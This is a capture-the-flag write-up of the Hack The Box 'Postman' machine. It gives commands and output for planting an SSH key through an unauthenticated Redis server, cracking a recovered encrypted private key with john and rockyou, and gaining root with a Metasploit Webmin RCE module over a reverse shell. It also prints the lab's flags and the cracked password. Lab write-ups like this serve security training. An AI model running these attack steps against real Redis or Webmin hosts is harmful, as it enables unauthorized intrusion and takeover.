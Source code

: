 ```yaml
---
title: Postman
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, redis, metasploit, easy]
math: true
---
```

# Postman

Postman was an easy linux box that required use of the redis service for unauthenticated shell and then we use another exploit on webmin for root.

>Skills involved in this box
- enumeration
- redis exploitation
- priv esc

# USER

>Nmap

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from our nmap that the ip is running port 6379 for redis, this is an instant alarm that we need to use that as redis is a rare occurance in htb which makes the path slighty more obvious.

We run a dirbuster but nothing interesting occured after looking at the output.

We head over to http://postman.htb:10000 to check whats there. It gives us a redirect to a login page for webmin.
The version is `MiniServ/1.910`

There were a few exploits listed with searchsploit o exploit-db but none of them worked for the webadmin either not on this box or needed creds so at this stage wasnt possible.

>Exploiting redis using redis-cli

If you dont already have this installed you can install it with `sudo apt-get install redis-server`

i will show the exploitation steps below:
```bash
ssh-keygen on our box.
chmod 400 /home/kali/.ssh/id_rsa.pub
in redis:

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> flushall
OK
10.10.10.160:6379> exit

on our box:

kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt
kali@kali:~/boxes/postman$ cat ~/.ssh/id_rsa.pub >> blob.txt
kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt

Last step:

kali@kali:~/boxes/postman$ cat blob.txt | redis-cli -h 10.10.10.160 -x set ssh

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160 save
```
Then we simply ssh into the box as redis using our private key. `ssh -i /home/kali/.ssh/id_rsa redis@10.10.10.160`

Reading `/etc/passwd` reveals the user Matt:
```bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```
So we assume we have to priv esc to matt in some sort of way.

After enumerating for a while we find an interesting file in `/opt`.
```bash
redis@Postman:~$ cd /opt
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
It seems to be an old ssh key, lets see if we can crack it using `ssh2john.py`.
```/usr/share/john/ssh2john.py id_rsa > hash.txt```
```bash
kali@kali:~/boxes/postman$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```
And it worked! We get the password `computer2008` as the password for Matt.

We try reloging in with ssh as matt but it doesnt work.
We find if we just use `su Matt` and input the password it works completely fine. We then read our user flag.
```bash
edis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su MAtt
No passwd entry for user 'MAtt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$ cd /home/Matt
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```

# ROOT

It turns out theese credentials work on the site for webmin so we can use the metasploit module that we saw earlier as we now have the needed creds to do so.

```bash
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008 
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.xx.xx
LHOST => 10.10.14.5
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.xx.xx:4444 
[+] Session cookie: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.10.160:53994) at 2020-06-13 11:34:22 -0400
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce

```
Thanks for reading hope you enjoyed.




